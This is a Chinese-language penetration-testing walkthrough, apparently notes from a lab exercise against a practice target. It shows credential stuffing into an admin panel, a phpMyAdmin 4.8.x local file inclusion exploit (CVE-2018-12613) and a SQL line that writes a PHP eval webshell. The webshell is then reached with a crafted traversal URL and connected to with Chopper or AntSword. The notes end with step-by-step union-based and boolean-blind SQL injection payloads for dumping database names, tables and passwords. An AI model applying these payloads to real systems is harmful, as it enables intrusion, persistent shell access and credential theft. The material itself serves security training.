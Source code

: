 获取用户名密码后直接撞库，进到后台  
登录网站数据库后，查看数据库管理系统的版本号，并在互联网中搜索是否有可以利用的安全漏洞。  

当然有漏洞:  
[phpMyAdmin 4.8.x 本地文件包含漏洞利用](https://blog.vulnspy.com/2018/06/21/phpMyAdmin-4-8-x-LFI-Exploit/)  

### 操作

开启sql日志
`set global general_log = "ON";`  

利用 `CVE-2018-12613` 进行 `getshell`。在 SQL 语句执行处执行

```sql
SELECT " <?php file_put_contents('shell.php','<?php @eval($_POST[1]);?>');?>"
```
这句话的含义为向 `shell.php` 文件中写入一句话木马（但还没有真正成功创建）  

构造url  
http://192.168.210.116/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_9uc9vq9fcfge4h5cr0c3ruq1flt75p56

运行后 shell 文件就在 http://192.168.210.116/phpmyadmin/ 下  
最后用菜刀或者蚁剑连上就行了



# 3 注入爆库

过滤分为两种，前端和后端  
而这个靶站刚好就是前端验证  
[禁用JavaScript](https://learn.microsoft.com/zh-cn/microsoft-edge/devtools-guide-chromium/javascript/disable)  

### sql 注入基本方法
#### 手工注入爆库
1、打开SQL Injection模块，该模块的功能是通过输入User ID查询Username。  
2、测试输出结果：输入1提交，将正常返回查询结果。  
3、确定注入点：使用敏感字符和逻辑语句使其报错，通过报错来确定注入是否存在。输入`1'`提交，将返回一个错误。  
4、分析报错信息，使用的sql语句可能是：`select First name and Surname from 表名 where id='输入的id'`  
5、分别加入逻辑运算：`’and 1=1#’和’and 1=2 #’`（前后的单引号是闭合前面和后面的单引号，#为注释符号）可以顺利执行。  
6、输入`1' union select 1,database()#`提交，得到数据库名称(注：union查询要求两个select语句必须返回相同数量的字段)。  
7、输入`1' union select 1,table_name from information_schema.tables where table_schema='xxx'#`，得到数据库中的表名。  
8、输入`1' union select 1,column_name from information_schema.columns where table_name='xxx'#`，得到users表的列名。  
9、输入`1' union select xxx,xxx from xxx#` 得到users表的所有用户名和口令。  
10、破解users表中的密文口令。  
#### SQL盲注猜解数据库信息
1、打开SQL Injection（Blind）模块，该界面的功能是通过输入User ID查询该ID是否存在。  
2、输入一些数字或字符提交，观察返回的查询结果，推测当查询返回结果集中行数大于0时，页面显示信息：User ID exists in the database，否则显示信息：User ID is MISSING from the database。  
3、输入特殊字符，测试是否存在注入漏洞。  
4、基于布尔盲注，输入1' and length(database())>X#，猜解数据库名称的长度X。  
5、输入1' and ascii(substr(database(),1,1))>XXX#，对照ASCII码表猜解数据库名称中的每一个字母的值XXX。  
6、输入1' and (select count(table_name) from information_schema.tables where   table_schema=database())>X#，猜解数据库中有多少张表。  
7、输入1' and length((select table_name from information_schema.tables where   table_schema=database() limit 0,1))>X#，猜解数据库中第一张表的表名长度。  
8、输入1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>XXX#，猜解表名。  
9、基于上述方法，可继续猜解字段名、字段内容等信息。  
